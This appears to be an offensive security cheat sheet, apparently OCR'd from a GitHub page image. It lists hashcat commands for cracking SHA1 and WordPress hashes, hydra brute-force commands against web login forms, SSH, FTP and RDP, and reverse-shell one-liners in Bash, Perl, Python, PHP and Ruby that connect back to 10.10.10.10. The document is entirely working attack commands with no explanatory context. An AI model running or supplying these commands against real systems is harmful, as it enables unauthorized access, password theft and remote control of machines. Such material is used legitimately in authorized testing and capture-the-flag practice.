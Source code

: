 # Hashcat SHA1  
hashcat -m 100 -a 0 hash.txt rockyou.txt --force

# Hashcat WordPress  
hashcat -m 400 -a 0 --remove hash.txt rockyou.txt

hydra -l username -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/portal/xlogin/:user=^USER^&pass=^PASS^:invalid login"

hydra -l username -P /usr/share/wordlists/rockyou.txt 10.10.10.10 https-post-form "/portal/xlogin/:user=^USER^&pass=^PASS^:S=302"

# SSH
hydra -l username -P /usr/share/wordlists/fasttrack.txt ssh://10.10.10.10
# FTP
hydra -l username -P /usr/share/wordlists/fasttrack.txt ftp://10.10.10.10
# RDP
hydra -l username -P /usr/share/wordlists/fasttrack.txt rdp://10.10.10.10
Payload/Shell
# Bash
bash -i >& /dev/tcp/10.10.10.10/8080 0>&1

# Perl
perl -e 'use Socket;$i="10.10.10.10";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP
php -r '$sock=fsockopen("10.10.10.10",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.10.10",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
